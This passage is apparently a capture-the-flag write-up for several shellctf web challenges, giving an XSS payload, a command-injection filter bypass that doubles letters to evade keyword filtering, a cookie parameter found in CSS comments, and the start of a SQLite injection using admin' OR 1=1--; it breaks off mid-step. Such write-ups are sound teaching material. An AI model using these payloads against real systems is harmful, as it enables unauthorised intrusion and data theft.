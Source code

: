```
shell{y0u_g07_th3_flag_N1c3!}
```



## choosy (web)

xss  payload :

```html
<img src=x onerror=alert(1)>
```
```
shellctf{50oom3_P4yL0aDS_aM0ng_Maaa4nnY}
```



## ILLUSION (web)

RCE FILTER :

ls is filtered --> llss executed

keep enumerating :

```bash
ccdd .. ..; llss;ccdd .. ..;llss;cat flag.txt
```


```
shellctf{F1l73R5_C4n'T_Pr3v3N7_C0mM4nd_1nJeC71on}
```

## colour cookie (web)


check css comments : 
http://20.125.142.38:8326/static/base_cookie.css --> 

```
/*   name="C0loR"  */
```

http://20.125.142.38:8326/check?name=name&C0loR=blue


```
shellctf{C0ooooK13_W17h_c0ooorr3c7_Parr4m37er...}
```


## Extractor (web)

> sqlite injeciton UNION based 

Syntax error :
```
http://52.66.29.74:8999/profile?username=admin'&pass=admin&content=1234  
```
get password : P4ss321 , so we have a SQLi here
```
http://52.66.29.74:8999/profile?username=admin'OR+1=1--&pass=admin&content=1234
```
get number of columns :
